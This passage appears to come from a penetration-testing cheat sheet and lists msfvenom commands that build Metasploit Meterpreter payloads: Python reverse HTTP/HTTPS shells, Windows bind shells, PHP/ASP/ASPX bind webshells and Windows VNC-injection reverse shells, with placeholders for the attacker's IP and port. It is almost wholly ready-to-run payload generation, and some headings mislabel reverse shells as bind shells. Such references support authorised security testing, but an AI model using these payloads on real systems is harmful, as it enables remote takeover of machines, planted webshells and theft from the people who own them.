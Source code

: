 ##### 2.6.2.4 - Stageless Python Meterpreter Bind Shells

`$ msfvenom -p python/meterpreter_reverse_http lhost=<IP> lport=<PORT> -o met.py`

`$ msfvenom -p python/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -o met.py`

##### 2.6.2.5 - Stageless Windows Meterpreter Bind Shells

1. **x86-64 (64-bit) Payloads**

For the SMB pipe the default for LPORT will always be port **445** 

`$ msfvenom -p windows/x64/meterpreter_bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o met-x86-64.exe`

`$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f exe -o met-x86-64.exe`

##### 2.6.2.6 - Stageless Mac OSX Meterpreter Bind Shell

TODO: Fill the missing info related stageless mac osx meterpreter bind shells

##### 2.6.2.7 - Stageless Bind Webshells

1. **PHP**

`$ msfvenom -p php/meterpreter_bind_tcp lport=<PORT> -f raw > met.php`

`$ cat met.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php`

2. **ASP**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter_bind_tcp lport=<PORT> -f asp -o met-x86.asp`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f asp -o met-x64.asp`

3. **ASPX**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter_bind_tcp lport=<PORT> -f aspx -o met-x86.aspx`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f aspx -o met-x64.aspx`

### 2.7 - VNC Payloads

#### 2.7.1 - Staged Windows VNC Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe`

`$ msfvenom -p windows/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe`

2. **x86-64 (64-bit) Payloads**
